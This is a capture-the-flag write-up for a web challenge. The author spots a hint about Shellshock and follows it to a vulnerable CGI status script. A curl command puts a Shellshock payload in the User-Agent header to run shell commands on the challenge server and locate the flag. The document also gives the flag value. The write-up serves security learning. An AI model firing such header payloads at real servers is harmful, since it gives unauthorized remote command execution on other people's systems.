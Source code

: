 # Web 200
## Description
You’ll be shocked when you finally get it.
http://44.197.231.105:3022

Source Code of the site
```
<html>
    <head><title>MCA WEB 200</title></head>
    <body>
        <h1>Hey, an index page...</h1>
	 <!--How do we feel about robots? Think they'll take over the world some day?-->
    </body>
</html>
```
Contents of `http://44.197.231.105:3022/robots.txt`
```
User-agent: *
Disallow: /cgi-bin/status.cgi
```
Contents of `http://44.197.231.105:3022/cgi-bin/status.cgi`
```
Robot C2 link up since:  03:39:31 up  5:58,  1 user,  load average: 5.78, 8.55, 9.35
```

Ok now I'm stuck. The description says `You’ll be shocked when you finally get it`
I think shocked is a key word. I search up `shellshocked exploit` and it exists!
On metasploit, it even mentions a CGI script, which matches the link we were given

#1
![MSF-SS](ScreenShots/10-07-06.png)

However we get an error
![MSF-Error](ScreenShots/10-08-45.png)

It cannot setup a reverse shell
...
After tens of minutes I wasn't able to make MSF work. I tried switching payloads, googling the error. But nothing.. So I switched gears to researh the shellshocked exploit.

[I watched this video my John Hammond](https://www.youtube.com/watch?v=TS_yfDqr_3s&ab_channel=JohnHammond)

And got this command that actually worked
![Working-Command](ScreenShots/10-11-14.png)

`id` was the command being executed, so I wanted to see what else I could do
```
curl -H "User-Agent: () { :; }; echo; echo; /bin/bash -c 'pwd'" "http://44.197.231.105:3022/cgi-bin/status.cgi"
```
![pwd](ScreenShots/10-12-35.png)
and
![passwd](ScreenShots/10-13-06.png)

I thought I could try to setup a bash reverse shell from here. But nothing worked...
So I though I'd go hunting myself.

![userhome](ScreenShots/10-14-10.png)
Still nothing interesting

I looked though many more dirs, but one of my teammates for this CTF suggested I look into the `/var/www` diretory. 

Voila
![flag](ScreenShots/10-15-37.png)

Flag: `MCA{721af99eaabd12a59602e8ade39caab934bea333}`